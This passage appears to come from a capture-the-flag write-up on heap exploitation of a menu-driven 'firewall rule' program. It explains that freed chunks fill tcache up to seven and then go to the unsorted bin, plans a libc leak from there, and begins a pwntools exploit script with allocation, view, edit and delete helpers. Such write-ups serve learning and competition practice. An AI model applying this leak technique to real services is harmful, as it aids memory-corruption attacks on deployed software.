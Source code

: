 <figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption><p>chunks viewed in GDB</p></figcaption></figure>

We can see that the chunks are indeed stored in **tcache** and the addresses are stack addresses, not libc addresses.

To leak a libc address, we can try to leak from the **unsorted bin**. Note that **tcache bin** only stores up to **7** chunks. Additional chunks that are freed will then go into **unsorted bin**.

So we can **allocate 8** chunks, **free** those **8** chunks. then **view** the <mark style="color:red;">latest</mark> chunk that was freed.

```python
#!/usr/bin/env python3

from pwn import *

def option(m):
	global p
	p.sendlineafter(b'> ',m)

def create(m):
	global p
	option(b'1')
	p.recvline()
	p.clean()
	p.sendline(m)
	p.recvuntil(b'Your firewall rule ID is: ')
	return p.recvline().strip()

def view(i):
	global p
	option(b'2')
	p.recvline()
	p.clean()
	p.sendline(i)
	p.recvuntil(b'Your rule: ')
	return p.recvline()[:-1]

def edit(i,m):
	global p
	option(b'3')
	p.recvuntil(b'you want to edit:\n')
	p.clean()
	p.sendline(i)
	p.recvuntil(b'new firewall rule here:\n')
	p.clean()
	p.sendline(m)

def delete(i):
	global p
	option(b'4')
	p.recvuntil(b'you want to delete:\n')
	p.clean()
	p.sendline(i)
	return p.recvline()


```